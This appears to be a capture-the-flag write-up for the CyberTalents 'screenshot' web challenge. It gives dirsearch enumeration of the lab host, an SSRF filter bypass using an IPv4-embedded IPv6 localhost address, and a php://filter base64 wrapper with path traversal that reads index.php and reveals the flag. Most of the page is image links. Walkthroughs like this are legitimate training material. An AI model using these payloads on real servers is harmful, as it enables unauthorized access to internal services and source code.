









# Solve screenshot
#### https://cybertalents.com/challenges/web/screenshot


### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mmrdzlj8byvl9j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*





### Try change api to 127.0.0.1



### Try to bypass the filter
##### IPv6/IPv4 Address Embedding
`http://wcamxwl32pue3e6mmrdzlj8byvl9j6zqdkgxu639-web.cybertalentslabs.com/?url=http%3A%2F%2Fgoogle.com&server=http://[0:0:0:0:0:ffff:127.0.0.1]`


### Analyze with burp 
Each request is converted to an jpg images/image in /thumbs directory

Also in the page source code


### Try to read the source code 
```php
php://filter/convert.base64-encode/resource=internalapi1.local/../index.php
```

`http://wcamxwl32pue3e6mmrdzlj8byvl9j6zqdkgxu639-web.cybertalentslabs.com/?url=../index.php&server=php://filter/convert.base64-encode/resource=internalapi4.local/`

View the source code 


`thumbs/c191cc0fd3c6fbb063e96b12c42a4e49.jpg`

Review burp



Base64 decode 
*you can review the source code in [index.php](index.php)*

The Flag is in the source code

>Find More on ==> github.com/MedhatHassan 
